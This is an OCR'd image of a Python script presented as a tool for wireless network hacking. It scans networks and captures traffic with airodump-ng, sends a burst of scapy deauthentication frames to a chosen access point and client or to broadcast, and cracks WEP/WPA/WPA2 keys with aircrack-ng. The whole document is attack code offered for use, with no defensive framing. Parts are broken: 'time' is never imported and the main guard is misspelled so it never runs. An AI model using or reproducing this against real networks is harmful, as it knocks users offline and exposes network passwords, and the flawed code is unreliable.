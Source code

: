 Python Script for Wireless Network Hackingimport os
from scapy.all import *

# Scan for nearby wireless networks
def scan_networks(interface):
    print("Scanning for nearby networks...")
    os.system(f"airodump-ng {interface}")

# Capture packets
def capture_packets(interface, duration):
    print(f"Capturing packets for {duration} seconds...")
    os.system(f"airodump-ng -w capture --output-format pcap {interface}")
    time.sleep(duration)
    os.system("pkill airodump-ng")

# Perform deauthentication attack
def deauth_attack(interface, target_bssid, target_client):
    print("Performing deauthentication attack...")
    packet = RadioTap() / Dot11(addr1=target_client, addr2=target_bssid, addr3=target_bssid) / Dot11Deauth()
    sendp(packet, iface=interface, count=100, inter=0.1)

# Crack WEP/WPA/WPA2 passwords
def crack_passwords(capture_file):
    print("Cracking passwords...")
    os.system(f"aircrack-ng {capture_file}")

def main():
    interface = input("Enter the wireless interface (e.g., wlan0): ")
    scan_networks(interface)
    duration = int(input("Enter the duration to capture packets (in seconds): "))
    capture_packets(interface, duration)
    
    attack_choice = input("Do you want to perform a deauthentication attack? (yes/no): ")
    if attack_choice.lower() == "yes":
        target_bssid = input("Enter the target BSSID: ")
        target_client = input("Enter the target client MAC address (or 'ff:ff:ff:ff:ff:ff' for broadcast): ")
        deauth_attack(interface, target_bssid, target_client)
    
    capture_file = input("Enter the path to the capture file (.cap): ")
    crack_passwords(capture_file)

if _name_ == "_main_":
    main()
